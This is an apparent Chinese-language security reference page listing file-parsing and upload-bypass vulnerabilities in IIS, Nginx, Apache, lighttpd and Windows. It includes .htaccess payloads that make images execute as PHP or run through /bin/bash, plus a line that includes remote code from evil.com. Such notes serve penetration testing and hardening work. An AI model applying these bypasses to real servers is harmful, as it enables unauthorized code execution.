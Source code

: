 中间件
========================================

IIS
----------------------------------------

IIS 6.0
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 后缀解析 ``/xx.asp;.jpg``
- 目录解析 ``/xx.asp/xx.jpg`` (xx.asp目录下任意解析)
- 默认解析 ``xx.asa`` ``xx.cer`` ``xx.cdx``
- PROPFIND 栈溢出漏洞
- PUT漏洞 WebDAV任意文件上传

IIS 7.0-7.5 / Nginx <= 0.8.37
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Fast-CGI开启状态下，在文件路径后加上 ``/xx.php`` ，则 ``xx.jpg/xx.php`` 会被解析为php文件

其他
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在支持NTFS 8.3文件格式时，可利用短文件名猜解目录文件

Nginx
----------------------------------------

Fast-CGI关闭
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Fast-CGI关闭的情况下， Nginx 仍然存在解析漏洞：
在文件路径(xx.jpg)后面加上 ``%00.php`` ， 即 ``xx.jpg%00.php`` 会被当做 php 文件来解析

Fast-CGI开启
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在Fast-CGI开启状态下，在文件路径后加上 ``/xx.php`` ，则 ``xx.jpg/xx.php`` 会被解析为php文件

CVE-2013-4547
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``"a.jpg\x20\x00.php"``

Apache
----------------------------------------

后缀解析
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
``test.php.x1.x2.x3`` （ x1,x2,x3 为没有在 mime.types 文件中定义的文件类型）。Apache 将从右往左开始判断后缀， 若x3为非可识别后缀，则判断x2，直到找到可识别后缀为止，然后对可识别后缀进行解析

.htaccess
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
当AllowOverride被启用时，上传启用解析规则的.htaccess

::

    AddType application/x-httpd-php .jpg

::

    php_value auto_append_file .htaccess
    #<?php phpinfo();

::

    Options ExecCGI
    AddHandler cgi-script .jpg

::

    Options +ExecCGI
    AddHandler fcgid-script .gif
    FcgidWrapper "/bin/bash" .gif

::

    php_flag allow_url_include 1
    php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
    #php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
    #php_value auto_append_file https://evil.com/evil-code.txt

CVE-2017-15715
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
%0A绕过上传黑名单

lighttpd
----------------------------------------
``xx.jpg/xx.php``

Windows
----------------------------------------
Windows不允许空格和点以及一些特殊字符作为结尾，创建这样的文件会自动取出，所以可以使用 ``xx.php[空格]`` ， ``xx.php.``， ``xx.php/``， ``xx.php::$DATA`` 可以上传脚本文件

参考链接
----------------------------------------
- `CVE-2013-4547 Nginx解析漏洞深入利用及分析 <http://www.91ri.org/9064.html>`_
- `Apache 上传绕过 <https://www.leavesongs.com/PENETRATION/apache-cve-2017-15715-vulnerability.html>`_
- `利用Windows特性高效猜测目录 <https://xz.aliyun.com/t/2318>`_
